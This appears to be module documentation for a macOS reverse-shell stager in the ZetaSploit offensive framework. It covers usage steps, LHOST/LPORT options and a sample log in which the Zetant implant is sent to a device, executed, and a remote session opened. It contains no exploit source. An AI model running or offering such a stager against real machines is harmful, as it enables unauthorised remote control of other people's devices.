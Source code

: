 # `exploit/macos/stager/zetant_reverse_tcp`

## Vulnerable Application

This module uses [Zetant Implant](https://github.com/enty8080/zetant) to send it to device and execute from `/private/var/tmp` to provide reverse shell.

## Verification Steps

1. Start ZetaSploit
2. Do `use exploit/macos/stager/zetant_reverse_tcp`
3. Do: `set LHOST` to your local host
4. Do: `set LPORT` to your local port
5. Do: `run`

## Options

| Option    | Default Value         | Required | Description        |
|-----------|-----------------------|----------|--------------------|
| `LHOST`   | `self.helper.getip()` | yes      | Local host.        |
| `LPORT`   | 4444                  | yes      | Local port.        |

**LHOST**

Variable that contains local host.

**LPORT**

Variable that contains local port.

## Scenarios

```
(zsf: exploit: macos/stager/zetant_reverse_tcp)> run
[*] Starting listener on port 4444...
[*] Binding to 192.168.2.108:4444...
[+] Listener started on port 4444!
[*] Connecting to 192.168.2.110...                
[*] Sending first stage...                        
[*] Executing first stage...                      
[*] Sending second stage...                       
[*] Executing second stage...                     
[*] Establishing connection...                    
[+] Session 0 opened!
(zsf: post: macos/zetant/trolling/say)> sessions
 
Sessions
========
 
    ID    Host             Username    Hostname     
    --    ----             --------    --------     
    0     192.168.2.110    enty8080    Ivans-Air    

(zsf: post: macos/zetant/trolling/say)>
```
